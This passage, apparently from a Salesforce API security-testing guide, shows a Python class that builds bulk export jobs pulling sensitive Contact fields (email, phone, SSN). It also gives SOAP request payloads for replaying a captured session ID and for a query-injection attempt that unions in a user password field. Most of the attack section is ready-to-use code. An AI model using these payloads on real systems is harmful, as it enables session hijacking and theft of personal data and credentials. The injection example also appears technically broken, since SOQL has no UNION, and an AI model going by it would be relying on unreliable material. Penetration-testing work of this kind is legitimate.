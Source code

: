 ```python
            return None
    
    def test_bulk_extraction(self, sobject_type, sensitive_fields):
        """Test bulk data extraction"""
        job_id = self.create_bulk_job(sobject_type)
        if not job_id:
            return False
        
        query = f"SELECT Id, {', '.join(sensitive_fields)} FROM {sobject_type}"
        batch_id = self.add_batch(job_id, query)
        
        if not batch_id:
            return False
        
        print(f"Bulk extraction job created: {job_id}, batch: {batch_id}")
        return True

# Usage
tester = BulkAPITester(session_id, instance_url)
sensitive_fields = ['Name', 'Email', 'Phone', 'SSN__c']
tester.test_bulk_extraction('Contact', sensitive_fields)
```

**Impact**: Bulk data exfiltration capability assessment.

### 3. SOAP API Security Testing

**Objective**: Assess SOAP API security including XML injection and session handling.

**SOAP Session Testing**:
```xml
<!-- Test session hijacking via SOAP -->
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:urn="urn:enterprise.soap.sforce.com">
    <soapenv:Header>
        <urn:SessionHeader>
            <urn:sessionId>CAPTURED_SESSION_ID</urn:sessionId>
        </urn:SessionHeader>
    </soapenv:Header>
    <soapenv:Body>
        <urn:query>
            <urn:queryString>SELECT Id, Name FROM Account LIMIT 5</urn:queryString>
        </urn:query>
    </soapenv:Body>
</soapenv:Envelope>
```

**XML Injection Testing**:
```xml
<!-- SOAP SOQL injection test -->
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
                  xmlns:urn="urn:enterprise.soap.sforce.com">
    <soapenv:Header>
        <urn:SessionHeader>
            <urn:sessionId>SESSION_ID</urn:sessionId>
        </urn:SessionHeader>
    </soapenv:Header>
    <soapenv:Body>
        <urn:query>
            <urn:queryString>SELECT Id FROM Account WHERE Name = 'test' UNION SELECT Password__c FROM User--</urn:queryString>
        </urn:query>
    </soapenv:Body>
</soapenv:Envelope>
```
